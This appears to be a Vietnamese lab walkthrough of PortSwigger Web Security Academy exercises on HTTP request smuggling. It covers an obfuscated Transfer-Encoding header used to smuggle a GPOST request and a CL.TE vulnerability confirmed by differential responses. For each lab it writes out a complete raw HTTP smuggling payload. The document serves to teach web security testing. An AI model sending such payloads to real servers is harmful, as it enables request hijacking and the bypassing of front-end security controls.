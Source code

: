 
Kết quả:

>![](https://i.imgur.com/1mL8Qry.png)

<hr>

### Bài 3: HTTP request smuggling, obfuscating the TE header

>![](https://i.imgur.com/yWtd6SF.png)

Theo đề, ta cần obfuscate TE header để khiến 1 server phân tách sai request

Để smuggle ***GPOST*** request tới backend, ta obfuscate TE header, khiến 1 trong 2 server không xử lý thông qua TE mà dùng CL header.

Do đó dẫn tới cách xử lý payload ở 2 server khác nhau -> gây ra lỗi

```
POST / HTTP/1.1
Host: 0ac700a504d3be8dc29faddd00b80079.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked
Transfer-encoding: cow

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


```

Kết quả:

>![](https://i.imgur.com/zRlDxzM.png)

<hr>

### Bài 4: HTTP request smuggling, confirming a CL.TE vulnerability via differential responses

>![](https://i.imgur.com/4WSUHJj.png)

Ở bài này, FE sửa dụng CL header để xác định độ dài payload, còn BE sử dụng cả 2.

Ta có thể thấy ở đây có sự bất đồng bộ trong xử lý, để trigger được `404` error, ta cần tạo 1 payload pass FE, nhưng khiến BE xử lý lỗi do ghi thêm data ngoài chunk

```
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Transfer-Encoding: chunked

e
q=smuggling&x=
0

GET /404 HTTP/1.1
Foo: x
```
